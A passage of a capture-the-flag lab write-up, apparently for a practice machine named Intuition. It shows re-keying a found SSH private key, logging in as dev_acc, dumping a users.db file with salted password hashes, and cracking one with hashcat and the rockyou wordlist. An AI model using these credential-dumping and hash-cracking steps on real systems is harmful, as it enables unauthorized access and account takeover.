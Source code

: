```
XxwXArPr6+HQe9hZSjI2hjYC2OU= 
-----END OPENSSH PRIVATE KEY-----
```

# New SSH key
Create a new ssh key with that passphrase and the id_rsa
```shell
└─$ ssh-keygen -p -P "Y27SH19HDIWD" -N "hack123" -m pem -f id_rsa 
Key has comment 'dev_acc@local'
Your identification has been saved with the new passphrase.

```

# We in !
And we are in !!
```shell
└─$ ssh -i id_rsa dev_acc@10.10.11.15                           
Enter passphrase for key 'id_rsa': 

```

# Users.db
Running linspeas I was able to find this file
```shell
dev_acc@intuition:/tmp$ cat /var/www/app/blueprints/auth/users.db
����P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)�3�EtableusersusersCREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL UNIQUE,
    password TEXT NOT NULL,
    role TEXT DEFAULT 'user'
,�,##w��h�=adamsha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43webdevh�=adminsha256$nypGJ02XBnkIQK71$f0e11dc8ad21242b550cc8a3c27baaf1022b6522afaadbfa92bd612513e9b606admin
������
��am    users
```

#### Hashes.txt
```txt
sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43
```

#### Cracked
```text

└─$ hashcat -m 30120 hashes.txt /usr/share/wordlists/rockyou.txt
sha256$Z7bcBO9P43gvdQWp$a67ea5f8722e69ee99258f208dc56a1d5d631f287106003595087cf42189fc43:adam gray

```
